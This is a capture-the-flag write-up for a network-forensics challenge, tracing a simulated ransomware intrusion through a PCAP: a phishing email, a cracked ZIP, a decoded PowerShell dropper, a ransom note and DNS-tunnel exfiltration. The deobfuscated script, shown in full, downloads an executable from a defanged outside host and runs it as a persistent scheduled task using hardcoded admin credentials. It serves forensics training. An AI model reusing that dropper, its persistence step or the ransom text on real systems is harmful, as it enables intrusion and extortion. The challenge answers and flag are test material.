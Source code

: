 # Alice_In_Rans0ml4nd

![chall](img/chall1.png)
![chall](img/chall2.png)
![chall](img/chall3.png)

## Files

>[!CAUTION]
> Disclaimer : The PCAP file provided in this challenge contains real or simulated malicious payloads (such as executables, scripts, or infected files transferred over the network).
> Use an isolated environment !

>[!NOTE]
> All suspicious/malicious content has been defanged in this WU.

* **esna_AliceInRans0ml4nd.zip** : challenge archive, encrypted
  * Archive password :
      <details>
      <summary>Click to reveal</summary>

      `1_C0ns3nt_;)`

      </details>
* **solve-material/** : folder containing solution material, browse with spoiler alert !

*Note : while this challenge was classified as 'Easy', I would argue it is more 'Medium' or even 'Hard' due to the diverse skills required to solve it.*

<details>
<summary>Solution</summary>

<img width=400 src="solve-material/img-wu/meme-encrypted.png" />

## Introduction : Wireshark/network forensics quick wins

There are multiple tips that can help you to quickly identify interesting artifacts in a PCAP file.
As they will be mentioned along this WU, here is a quick list of them : 
* **grep** (with -a option to treat binary files as text), especially with regex (LLM are your friends here)
* **Find a packet** button (Wireshark) to search for strings in packets
* **Follow TCP/UDP stream** feature (Wireshark) to reconstruct conversations and easly watch for cleartext data
* **File -> Export objects** feature (Wireshark) to extract files transferred over HTTP, FTP, SMB, etc.
  * Can also be done using tshark command line tool

## Emails

* A quick win for this task is using grep :
    ```bash
    $ grep -E -an '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}' chall.pcapng
    4563:To: natacha.routi@alice.corp
    4571:Return-Path: <it-support@alices.corp>
    4572:From: it-support@alices.corp
    10890:   sphinxhelpdesk@sphinxlock.ru
    ```
* We have multiple choices here. Let's dive in the PCAP.
* We find an interesting packet :
    ![email](solve-material/img-wu/mail.png)
* When following the TCP stream or opening the extracted `.eml` file, we obtain the following :
    <details>
    <summary>Email</summary>

    ```
    To: natacha.routi@alice.corp
    Content-Transfer-Encoding: quoted-printable
    Received: from mail.alice.corp by Alice.corp (Alice-Corp)
            id h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp; Sun, 22 Jun 2025 09:27:47 +0200
    Subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp
    Content-Type: text/plain; charset="utf-8"
    MIME-Version: 1.0
    Message-ID: h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp
    Return-Path: <it-support@alices.corp>
    From: it-support@alices.corp

    Hello,

    The IT department has published a new internal version of the Helpdesk tool. =
    =20
    Please download it using the link below:

    Download link: hxxps://www.dropbox.com/scl/fi/n13dckvawgi8rf50qr6ij/helpdesk.=
    zip?rlkey=3Ddlnvxltgup1wnlesbuiey2fwe&e=3D2&st=3D98676emp&dl=3D1

    Note: The archive is password protected. =20
    It is the common password used internally at Alice Corp to secure ZIP files.

    Do not share this file outside the internal network.

    Best regards, =20
    IT Support =20
    Alice Corp
    ```

    </details>

✅ 1. The email address used by the attacker: `it-support@alices.corp`<br>
✅ 2. The email address targeted within the company: `natacha.routi@alice.corp`

## First malware

* From the previous email, we immediately spot the Dropbox link.
* However, trying to access it directly fails.
* Turns out it is encoded as [Quoted Printable](https://en.wikipedia.org/wiki/Quoted-printable).
* Let's deocde it with [CyberChef](https://gchq.github.io/CyberChef/) :
    ![cyberchef](solve-material/img-wu/url-decode.png)
* Here are the changes :
    ![decoded](solve-material/img-wu/url-diff.png)
* When browsing the link, we may be asked to login, use a soc puppet account if needed.
* We can download the `helpdesk.zip` file.
* However, as stated in the email, it is password protected.
* We try to bruteforce it with John the Ripper :
    ```bash
    $ zip2john helpdesk.zip > helpdesk.hash
    $ john --wordlist=rockyou.txt helpdesk.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 2 OpenMP threads
    Note: Passwords longer than 21 [worst case UTF-8] to 63 [ASCII] rejected
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    !!Miley24$$      (helpdesk.zip)     
    1g 0:00:00:01 DONE (2025-10-22 02:23) 0.5291g/s 7589Kp/s 7589Kc/s 7589KC/s !LUM!*#1..*7¡Vamos!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
* ... which gives the password instantly : `!!Miley24$$`
* We can now extract the archive and obtain `helpdesk.exe`.
    ```bash
    $ md5sum helpdesk.exe
    8d8b36683ed095a7eebe4e8c70141bfc  helpdesk.exe
    ```

✅ 3. The MD5 hash of the first malware: `8d8b36683ed095a7eebe4e8c70141bfc`

## Malicious script

* While exploring the PCAP, we spot some explicit ps1 file name :
    ![ps1](solve-material/img-wu/sus-ps1.png)
    ![sus](solve-material/img-wu/Suspicious-Meme.jpeg)
* Either by looking at the exported HTTP objects or by exploring the PCAP, we can read its content :
    ```powershell
    $z1 = @(0x13,0x62,0x44,0x52,0x45,0x17,...,0x3d,0x4a,0x3d) # truncated for readability
    $z2 = ""
    foreach ($z3 in $z1) {
        $z2 += [char]($z3 -bxor 0x37)
    }

    Invoke-Expression $z2
    ```
* We craft a [Python script](solve-material/decode-ps1.py) to deobfuscate it. Here is the result :
    <details>
    <summary>deploy-malware.ps1</summary>

    ```powershell
    $User = "alice-corp\administrateur"
    $PasswordPlain = "admin123sY*-+"
    $Pass = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)

    $RemoteHost = "192.168.57.200"

    $RemoteCommand = {
        $exeUrl = "hxxp://susqoUh.ru:8000/susqoUh.exe"
        $exePath = "C:\Windows\Temp\helpdesk.exe"
        $taskName = "DontTouchMe"

        try {
            Invoke-WebRequest -Uri $exeUrl -OutFile $exePath -UseBasicParsing

            $action = New-ScheduledTaskAction -Execute $exePath
            $trigger = New-ScheduledTaskTrigger -AtStartup
            $settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

            Register-ScheduledTask -TaskName $taskName `
                -Action $action `
                -Trigger $trigger `
                -User "alice-corp\administrateur" `
                -Password "admin123sY*-+" `
                -Settings $settings `
                -RunLevel Highest `
                -Force

            Start-ScheduledTask -TaskName $taskName

        } catch {
            Write-Host ""
        }
    }

    try {
        Invoke-Command -ComputerName $RemoteHost -Credential $Cred -ScriptBlock $RemoteCommand -ErrorAction Stop
    } catch {
        Write-Host ""
    }
    ```

    </details>

✅ 4. The domain name contacted to download a script: `ykfqaqa.ru`<br>
✅ 5. The password used to connect to the server: `admin123sY*-+`<br>
✅ 6. The name of the scheduled task that was executed: `DontTouchMe`<br>
✅ 7. The domain name contacted by the script to download the second malware: `susqouh.ru`

## Malware on the server

* We can now search for `susqoUh.exe` in the PCAP or directly browse the downloaded objects for http.
    ![exe](solve-material/img-wu/sus-exe.png)
* When obtained, we compute its MD5 hash :
    ```bash
    $ md5sum susqoUh.exe
    5d820e7bbb4e4bc266629cadfa474365  susqoUh.exe
    ```

✅ 8. The MD5 hash of the malware present on the server: `5d820e7bbb4e4bc266629cadfa474365`

## Ransom note

* Where could we find traces of ransomware activity ? In a ransom note of course !
* Remember the extra email we found with grep ? Let's search it in the raw PCAP :
    ```bash
    $ grep -ab "sphinxhelpdesk@sphinxlock.ru" chall.pcapng
    5125754:   sphinxhelpdesk@sphinxlock.ru
    ```
* Let's browser around these bytes and extract the text :
    ```bash
    $ tail -c +5125754 chall.pcapng | strings | head -n 15
    sphinxhelpdesk@sphinxlock.ru
    Include in your message:
    - Your unique victim ID: #SPX-3041B
    - Proof of payment
    - 1 encrypted files (max 1MB) for free decryption test
    >>> WARNING:
    If you fail to pay within 72 hours, we will:
    - Start posting confidential files.
    - Sell sensitive corporate data.
    This is your only opportunity to prevent a total data breach.
    We are watching.
    SPHINXLOCK
    notepad
    FieldSet corrupted (this is a bug)C:\Users\sachu\.cargo\registry\src\index.crates.io-1949cf8c6b5b557f\trust-dns-proto-0.22.0\src\xfer\dns_multiplexer.rs
    stream is done: @:
    ```
* After going a few bytes backward, we can extract the full ransom note :
    ```bash
    $ tail -c +5124900 chall.pcapng | strings | head -n 25
    #SPX-3041BidYinxuqab.rukeyfile
    message.txt---[ SPHINXLOCK RANSOMWARE GROUP ]---
    Your network has been compromised and all critical files have been encrypted.
    This includes documents, databases, backups, and internal project files.
    We are SPHINXLOCK 
    specializing in corporate data extraction and ransomware-as-a-service.
    Do NOT attempt to recover your files using third-party tools. Doing so will permanently corrupt them.
    >>> How to restore your files:
    1. Purchase 5000 USD in Monero (XMR) cryptocurrency.
    2. Send the exact amount to the following wallet address:
    84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq
    3. After payment, email us at:
    sphinxhelpdesk@sphinxlock.ru
    Include in your message:
    - Your unique victim ID: #SPX-3041B
    - Proof of payment
    - 1 encrypted files (max 1MB) for free decryption test
    >>> WARNING:
    If you fail to pay within 72 hours, we will:
    - Start posting confidential files.
    - Sell sensitive corporate data.
    This is your only opportunity to prevent a total data breach.
    We are watching.
    SPHINXLOCK
    notepad
    ```
* Alternatively, after searching the email in packet bytes in Wireshark, we can follow the TCP stream of the second binary extracted and read the ransom note there.
    ![ransom](solve-material/img-wu/ransom-message-wshark.png)

✅ 10. The name of the ransomware gang (in lowercase): `sphinxlock`<br>
✅ 11. The cryptocurrency wallet address used by the attackers: `84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq`

<img width=400 src="solve-material/img-wu/sphinxlock-meme.png" />

## Data exfiltration

* A common technique used by malware for data exfiltration is DNS tunneling.
* So let's browse the PCAP with this in mind.
* We find some random looking and explicit DNS queries :
    ![dns](solve-material/img-wu/dns-exfil.png)
* These are split in 3 groups : fileX, keyX, and idX.
* Let's grab them easly with some greps :
  * file0
    ```bash
    $ grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep file | sort -u
    0file0-0-d2373cdd6d999679668b0d4587abbeb325bda034
    0file0-1-3841f3cdb1e4ec8f7b597f75ddde462a9bbefb82
    0file0-2-8318f3bc16af0f52dce3ffbfa34670557bf89ee9
    0file0-3-8ce45da82eb45abd320c4b0a143e2569a6bd8a8f
    file0-4-8d7c0e52a76ff4b4505e82df2c204632
    file0-complete
    ```
    * Complete stream :
        `d2373cdd6d999679668b0d4587abbeb325bda0343841f3cdb1e4ec8f7b597f75ddde462a9bbefb828318f3bc16af0f52dce3ffbfa34670557bf89ee98ce45da82eb45abd320c4b0a143e2569a6bd8a8f8d7c0e52a76ff4b4505e82df2c204632`
  * id0
    ```bash
    $ grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep id | sort -u
    id-0-235350582d3330343142
    id-complete
    ```
    * Gives just `235350582d3330343142`
    * From hex : `#SPX-3041B`
    * Just the victim ID (seen in ransom note)
  * key0
    ```bash
    $ grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep key | sort -u
    key-0-3de090e7059fb1d7f77dec50078405c855e3f1a4
    key-1-6589e72db2602c7d7e8403b8
    key-complete
    ```
    * Complete stream :
        `3de090e7059fb1d7f77dec50078405c855e3f1a46589e72db2602c7d7e8403b8`
* Time to decrypt... But how ?
* After ~~torturing~~ asking gently to different LLMs, we find the right prompting approach to ask for common encryption algorithms.
  * It helps us to craft a [decryption script](solve-material/decode-dns.py).
* Turns out it was encrypted using **AES GCM**.
    ```bash
    $ python3 decode-dns.py 
    OFB: ...
    CFB: ...
    GCM: Congratulation this is your final part : DNS_TUNNEL_SUCCESS_C0MPLETE
    ```

✅ 9. The domain name used for data exfiltration: `yinxuqab.ru`<br>
✅ 12. The final flag contained in a file exfiltrated by the malware: `DNS_TUNNEL_SUCCESS_C0MPLETE`

## Final flag

* To avoid messing up copy-paste/flag formatting, we created a [python script](solve-material/craft-flag.py) that generates the final flag from all the previous answers.
* Generated flag:
    `it-support@alices.corp:natacha.routi@alice.corp:8d8b36683ed095a7eebe4e8c70141bfc:ykfqaqa.ru:admin123sY*-+:DontTouchMe:susqouh.ru:5d820e7bbb4e4bc266629cadfa474365:yinxuqab.ru:sphinxlock:84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq:DNS_TUNNEL_SUCCESS_C0MPLETE`
* Final Flag: `ECW{f68ba371b5fc66c802207b9bedd0838af9d6d7a46085765425d89f80f558b3f9}`

## Conclusion

While this WU may look straightforward, I spent **hours** on this one.
I fell in the rabbithole a few time, e.g. decrypting the winrm traffic (which was not needed). At least I learned how this protocol works !
I learnt a lot on network forensics in general.

<img height=200 src="solve-material/img-wu/rabbithole.jpg" />

</details>